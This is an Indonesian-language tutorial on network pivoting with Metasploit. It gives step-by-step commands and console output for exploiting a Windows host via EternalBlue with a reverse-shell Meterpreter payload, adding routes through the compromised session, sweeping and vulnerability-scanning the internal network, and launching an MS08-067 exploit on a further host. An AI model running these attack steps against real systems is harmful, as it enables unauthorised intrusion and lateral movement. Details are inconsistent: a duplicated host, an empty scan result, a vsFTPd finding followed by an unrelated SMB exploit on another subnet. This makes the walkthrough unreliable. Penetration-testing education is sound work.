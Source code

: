 # Pivoting dan Route Command di Metasploit

## A. Apa Itu Pivoting?

[Pivoting](https://en.wikipedia.org/wiki/Exploit_(computer_security)#Pivoting) adalah teknik menggunakan sistem yang telah dikompromikan sebagai `hot point` untuk menyerang sistem lain di jaringan internal yang hanya bisa diakses dari dalam.

**Ada dua jenis pivoting:**
- Layer 3 pivoting (routing) -> menggunakan `autoroute` dan `route` di Metasploit.
- Layer 2 pivoting (`ARP spoofing`, `bridge`) -> biasanya dilakukan dengan tools seperti [ettercap](https://www.ettercap-project.org/) atau [bettercap](https://www.bettercap.org/).

## B. Syarat Pivoting di Metasploit

- Sudah ada Meterpreter session di host pertama (pivot point).
- Host tersebut punya akses ke jaringan internal yang ingin dijelajahi.
- Modul `autoroute` atau perintah `route` digunakan untuk menambahkan rute jaringan internal.

## C. Langkah-Langkah Melakukan Pivoting di Metasploit

### 1. Dapatkan Akses ke Mesin Pertama

Contoh:

```
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS 192.168.1.10
set RPORT 445
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST 192.168.1.5
set LPORT 4444
exploit
```

Hasil output-nya seperti ini:

```
[+] 192.168.1.10:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 192.168.1.10:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 192.168.1.10:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=

meterpreter >
```

Itu artinya kita sudah mendapatkan akses ke mesin pertama.

### 2. Tambahkan Route Internal dengan `autoroute`

Misalnya, mesin A bisa melihat jaringan internal `192.168.1.0/24`:

```
run autoroute -s 192.168.1.0/24
```

Keterangan:
- `-s`: (subnet) jaringan internal target: `192.168.1.0/24`

Hasil output-nya seperti ini:

```
meterpreter > run autoroute -s 192.168.1.0/24
[!] Meterpreter scripts are deprecated. Try post/multi/manage/autoroute.
[!] Example: run post/multi/manage/autoroute OPTION=value [...]
[*] Adding a route to 192.168.1.0/255.255.255.0...
[+] Added route to 192.168.1.0/255.255.255.0 via 192.168.1.45
[*] Use the -p option to list all active routes
```

Atau secara manual:

```
background
route add 192.168.1.0 255.255.255.0 4
```

Keterangan:
- `192.168.1.0`: Alamat IP Network target
- `192.168.1.255`: Alamat IP Broadcast target
- Angka `4`: Sesi ID Meterpreter.

Hasil output-nya seperti ini:

```
meterpreter > background 
[*] Backgrounding session 4...
msf6 auxiliary(scanner/discovery/arp_sweep) > sessions 

Active sessions
===============

  Id  Name  Type                     Information                     Connection
  --  ----  ----                     -----------                     ----------
  4         meterpreter x64/windows  NT AUTHORITY\SYSTEM @ ADMIN-PC  192.168.1.42:4444 -> 192.168.1.45:49160 (192.168.1.45)

msf6 auxiliary(scanner/discovery/arp_sweep) > route add 192.168.1.0 255.255.255.0 4
[*] Route added
msf6 auxiliary(scanner/discovery/arp_sweep) > 
```

Cek route yang sudah ada:

```
route print
```

Hasil output-nya seperti ini:

```
msf6 auxiliary(scanner/discovery/arp_sweep) > route print 

IPv4 Active Routing Table
=========================

   Subnet             Netmask            Gateway
   ------             -------            -------
   192.168.1.0        255.255.255.0      Session 4

[*] There are currently no IPv6 routes defined.
```


### 3. Gunakan `auxiliary/scanner` Melalui Route

Kamu sekarang bisa melakukan scanning ke internal network.

Contoh scanning semua host yang ada di internal:

```
use auxiliary/scanner/discovery/arp_sweep
set RHOSTS 192.168.1.0/24
set verbose true
run
```

Ini akan meng-scan semua host yang up/aktif yang ada di jaringan yang sama, mulai dari host dengan alamat IP `192.168.1.1` sampai dengan host dengan alamat IP `192.168.1.254`.

Hasil output-nya seperti ini:

```
msf6 auxiliary(scanner/discovery/arp_sweep) > set rhosts 192.168.1.0/24
rhosts => 192.168.1.0/24
msf6 auxiliary(scanner/discovery/arp_sweep) > set verbose true 
verbose => true
msf6 auxiliary(scanner/discovery/arp_sweep) > run
[+] 192.168.1.1 appears to be up (UNKNOWN).
[+] 192.168.1.4 appears to be up (UNKNOWN).
[+] 192.168.1.7 appears to be up (UNKNOWN).
[+] 192.168.1.12 appears to be up (UNKNOWN).
[+] 192.168.1.45 appears to be up (CADMUS COMPUTER SYSTEMS).
[+] 192.168.1.47 appears to be up (UNKNOWN).
[+] 192.168.1.48 appears to be up (CADMUS COMPUTER SYSTEMS).
[+] 192.168.1.42 appears to be up (ALFA, INC.).
[*] Scanned 256 of 256 hosts (100% complete)
[*] Auxiliary module execution completed
msf6 auxiliary(scanner/discovery/arp_sweep) > 
```

Dari hasil scan tersebut, ditemukan 8 alamat IP Address yakni:
- `192.168.1.1`
- `192.168.1.4`
- `192.168.1.7`
- `192.168.1.12`
- `192.168.1.42`
- `192.168.1.45`
- `192.168.1.47`
- `192.168.1.45`

Buat file `host.txt`:

```
nano host.txt
```

Isi dengan:

```
192.168.1.1
192.168.1.4
192.168.1.7
192.168.1.12
192.168.1.42
192.168.1.47
192.168.1.48
```

Kenapa host dengan alamat IP Address `192.168.1.45` tidak diikutsertakan? karena host tersebut sudah dieksploitasi alias sudah menjadi jembatan pertama untuk mengeksploitasi host-host yang lain.

Scan host-host tersebut menggunakan `Nmap`:

```
nmap -sS -T4 -O --script vuln -iL host.txt
```

Keterangan:
- `-sS`: Menggunakan teknik `SYN` scan (stealth)
- `-T4`: Templat waktu (semakin tinggi semakin cepat)
- `-O`: Mengaktifkan scan OS (sistem operasi)
- `--script vuln`: Jalankan semua skrip kategori vuln (vulnerability detection)
- `-iL`: File yang berisi daftar host yang ingin di-scan: `host.txt`

Hasil output-nya seperti ini:

```

```

Dari hasil scan tersebut, ditemukan vulnerability `vsFTPd version 2.3.4 backdoor` pada host `192.168.1.48`.

### 4. Lanjutkan Eksploitasi ke Mesin Internal

Setelah tahu ada mesin internal dengan service aktif, kamu bisa lanjut menggunakan exploit yang sesuai:

```
use exploit/windows/smb/ms08_067_netapi
set RHOSTS 192.168.10.20
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 192.168.1.100
exploit
```

### Tips Tambahan

- Gunakan `arp` di Meterpreter untuk melihat host yang pernah diakses:

   ```
  meterpreter > arp
  ```

- Gunakan netstat untuk lihat koneksi:

  ```
  meterpreter > netstat
  ```

- Bisa chaining pivot lebih dari satu kali (multi-hop), tapi perlu VPN atau SOCKS proxy (contoh: `auxiliary/server/socks_proxy`).
